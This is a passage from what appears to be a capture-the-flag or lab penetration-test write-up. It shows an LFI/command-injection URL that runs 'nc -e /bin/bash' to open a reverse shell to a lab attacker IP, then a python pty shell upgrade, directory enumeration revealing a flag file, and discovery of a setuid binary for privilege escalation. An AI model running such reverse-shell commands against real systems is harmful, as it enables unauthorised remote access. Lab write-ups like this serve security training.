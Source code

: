 The LFI vulnerability was exploited to execute a reverse shell command:

```bash
http://192.168.74.146/root/images/os/feedback.php?path=nc -e /bin/bash 192.168.74.135 9999
```

![[Pasted image 20250322160108.png]]
#### 5.1.3 **Shell Improvement**

The basic shell was upgraded for better functionality:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

### 5.2 **Initial System Enumeration**

After gaining shell access, initial enumeration revealed:

```bash
www-data@target:~$ ls -lah /home
total 12K
drwxr-xr-x  3 root     root     4.0K Mar  8  2021 .
drwxr-xr-x 18 root     root     4.0K Mar  8  2021 ..
drwxr-xr-x  4 defender defender 4.0K Mar  8  2021 defender
```

The system had a single user account named `defender`.

```bash
www-data@target:~$ ls -la /home/defender/Desktop/
total 16
drwxr-xr-x 2 defender defender 4096 Mar  8  2021 .
drwxr-xr-x 4 defender defender 4096 Mar  8  2021 ..
-rw-r--r-- 1 root     root       33 Mar  8  2021 .flag3.txt
-rw-r--r-- 1 defender defender  1250 Mar  8  2021 download.png
-rw-r--r-- 1 defender defender  1337 Mar  8  2021 app_protected.zip
```

The Desktop directory contained:

- A flag file (`.flag3.txt`) owned by root
- An image file (`download.png`)
- A password-protected zip file (`app_protected.zip`)
## 6. **PRIVILEGE ESCALATION**

### 6.1 **Initial Privilege Escalation Attempts**

#### 6.1.1 **Suspicious File Discovery**

A suspicious file was discovered in the Downloads directory:

```bash
www-data@target:~$ ls -la /home/defender/Downloads/
total 12
drwxr-xr-x 2 defender defender 4096 Mar  8  2021 .
drwxr-xr-x 4 defender defender 4096 Mar  8  2021 ..
-rwsr-xr-x 1 root     root     8744 Mar  8  2021 .shelf
```
